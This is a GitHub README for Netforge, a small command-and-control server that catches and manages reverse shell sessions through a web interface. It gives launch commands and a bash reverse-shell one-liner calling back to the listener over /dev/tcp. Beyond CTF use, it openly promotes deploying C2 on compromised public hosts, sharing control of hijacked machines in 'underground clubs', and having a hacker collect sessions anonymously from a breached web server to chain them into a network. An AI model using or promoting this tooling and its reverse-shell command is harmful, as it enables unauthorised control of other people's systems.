 
---

# Netforge

 

This is a **C2 server only 14MB in size**, implementing account-based session isolation and management. No complex installation is required—just run it and control it via a web interface.

**Features:**

* [+] Lightweight local DB: Uses SQLite. Database files are preferably placed in `/dev/shm` (in-memory temporary file) to improve speed and allow easy cleanup on restart.
* [+] Session/identity management: Custom session protocol
* [+] Database operations with parameterized placeholders: All SQL operations use `?` placeholders to reduce SQL and XSS injection risks
* [+] Embedded device TCP debugging
* [+] Reverse shell management
* [+] Rapid deployment of C2 on public compromised hosts

---

# Usage

```bash
$ ./netforge_linux -h
```



```
Usage of ./netforge_linux:
  -key string
        Secret key
  -port int
        Web UI port, default 8080 (default 8080)
```

**Tip:** If you want the client to listen on ports <1024, root privileges are usually required:

```bash
$ sudo ./netforge_linux
```

---

## How to start Netforge and use it

```bash
$ ./netforge_linux --key <Hacked12345>
```

Set a secret key. It is usually recommended to use an 8+ character key containing uppercase, lowercase letters, and numbers.



> [http://192.168.0.117:8080](http://192.168.0.117:8080)



Registration page password policy follows the same rules.



Login panel:



---

## How to start multiple listening ports and get sessions

Users input the port number and click **Spawn**, and the port bookmark will appear on the left.



Example reverse shell:

```bash
/bin/bash -i >& /dev/tcp/192.168.0.117/9988 0>&1
```

The session appears on the left.


**Tip:** You can listen on multiple ports. Clicking different port tabs will show sessions from different hosts.

---

## How to stop Netforge listening ports

Click **Close** on the left port bookmark to stop the server from listening on that port.


---

# Use Case 1: HTB / THM / CTF

In HTB, THM, or CTF environments, when escalating privileges you may have sessions under different user accounts. Installing Cobalt Strike can be cumbersome and time-consuming.
Netforge can be deployed on any host to act as a lightweight C2 server.



---

# Use Case 2: Underground Clubs

Martin used Netforge to gain control over some hosts and planned to share access with Jeason.




Jeason logged into Netforge using Martin’s credentials:

> [http://192.168.0.117:8080/](http://192.168.0.117:8080/)



Meanwhile, Max was looking at the screen with the hosts and URLs but did not know Martin’s credentials. Max registered an account and tried to hack in.



Luckily, the login form **does not have SQL injection**.



Max tried directory enumeration… Oops!



> Note: This was intentionally designed—when identity verification fails, the server returns this response.

Max could not stop Martin’s port sessions due to proper access control.



Max tried connecting his own host to the server and attempted to hijack session data:

```json
{"action":"MESG","ip":"192.168.0.117","port":45076,"data":"ping -c 1 192.168.0.101\r\n"}
```

Max was unsuccessful.



---

# Use Case 3: Web Server C2

A hacker compromised a website and deployed Netforge on the server.




Using this server, they anonymously collected many host sessions.
Clearly, these nodes can be chained to form a network.



---


 
